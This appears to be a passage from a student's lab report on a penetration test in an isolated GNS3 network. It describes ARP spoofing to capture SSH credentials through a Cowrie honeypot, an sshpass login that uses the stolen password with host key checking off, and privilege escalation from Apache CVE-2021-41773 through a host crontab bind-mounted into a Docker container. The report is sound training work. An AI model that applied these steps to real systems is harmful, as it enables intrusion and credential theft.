

Figure. ssh connection without arp spoofing



Figure. POC that ARP spoofing is working (ssh connection is failed)

- Then I checked cowrie logs to catch a credentials there:



Figure. cowrie logs with credentials

- Credentials found so that I can try connecting to kingdom from a bob (attacker) using sshpass to avoid any popups inside cli like fingerprinting warning:

```bash
apt install -y sshpass

sshpass -p "kingdom123" ssh -o StrictHostKeyChecking=no kingdomuser@10.0.0.2
```







Figure. Kingdom come CLI access from the attacker

- I limited the proof for this task to the minimum evidence required by the lab report.

# Task 4 - Privilege Escalation Flow

## Task 4.1 - Choice and Setup of the Privilege Escalation Scenario

- For privilege escalation I reused the same vulnerable node from the previous tasks -**BobIsVulnerable**.
- The initial compromise was already achieved through **Apache HTTP Server 2.4.49**, vulnerable to CVE-2021-41773.
- The vulnerable service was deployed inside Docker, but the container was intentionally started with an unsafe host bind mount:
    - Host file: ``/etc/crontab``
    - Container path: ``/host/crontab``
- This created a realistic privilege escalation scenario: the attacker first gets code execution inside the vulnerable Apache container, then abuses the mounted host crontab file to execute commands as root on the **BobIsVulnerable** host.
- The setup is intentionally insecure, since the container receives write access to a sensitive host file. In a normal secure deployment, a web container should not be able to modify host scheduler files or any other root-owned system configuration files.

## Task 4.2 - Understanding of the Chosen Vulnerability Process

- I reused **BobIsVulnerable** from the previous tasks.
- Initial access came from **CVE-2021-41773** in Apache 2.4.49.
- The Apache service was running inside Docker.
- Privilege escalation was possible because the host `/etc/crontab` was mounted inside the container.
- By abusing this mount, commands from the container could be executed by host cron as root.
- The issue was unsafe Docker configuration, not a kernel exploit.
- Result: container shell escalated to root shell on **BobIsVulnerable**.

**The attack flow**

```bash
Attacker
  ↓
Exploit Apache CVE-2021-41773
  ↓
Shell inside apache-vuln Docker container
  ↓
Write malicious cron entry into /host/crontab
  ↓
Host cron service executes command as root
  ↓
Root shell on BobIsVulnerable host
```

## Task 4.3 - Test and Validation of Privilege Escalation

- I confirmed that Apache RCE was still working and checked that /crontab was accessible from the container. This allowed me to use it to trigger root command execution through host cron.
- After that, I received and validated a root shell on **BobIsVulnerable**. This root access also helped continue the Task 3 MITM/Cowrie flow.

## Task 4.4 - Delivery of the Vulnerable Instance for Partner Review

- Delivered target: **BobIsVulnerable.**
- Vulnerable service: **Apache 2.4.49 in Docker.**
- Escalation condition: host `/etc/crontab` mounted into the container.
- Lab addresses:

    - **BobIsVulnerable**: ``192.168.122.172`, `10.0.0.1``

    - **KingdomCome**: ``10.0.0.2``

    - **MisterClientAkaSmith**: ``10.0.0.3``

- Partner attack path:

    - exploit Apache `RCE`;

    - get container shell;

    - abuse mounted `crontab`;

    - escalate to `root` on `BobIsVulnerable`.

- This instance is intentionally vulnerable and only safe inside the isolated GNS3 lab.

# Bonus 1 - Demonstration of Additional Penetration Concepts

- As an additional non-RCE technique, I implemented ARP spoofing during Task 3.
- BobIsVulnerable was used as the attacker-controlled MITM point inside the internal network. The goal was to place BobIsVulnerable between **MisterClientAkaSmith** and **KingdomCome**.
- After **ARP** spoofing was enabled, **SSH** traffic from the client to the kingdom node could be redirected and observed.This allowed the Cowrie SSH honeypot to capture the test credentials used by the client.
- Compromising internal machine can be done using not only for RCE, but also for network-level attacks and credential interception.

# Conclusion

| Task | Evidence |
| --- | --- |
| Task 1 | 3-node network, internal 10.0.0.0/24 |
| Task 2 | CVE-2021-41773 RCE, daemon shell via curl |
| Task 3 | ARP spoof + Cowrie, stolen `kingdomuser:kingdom123`, SSH into Kingdom |
| Task 4 | Container escape via `/etc/crontab` bind mount, root shell via cron |
| Bonus 1 | ARP spoof on task 3 |
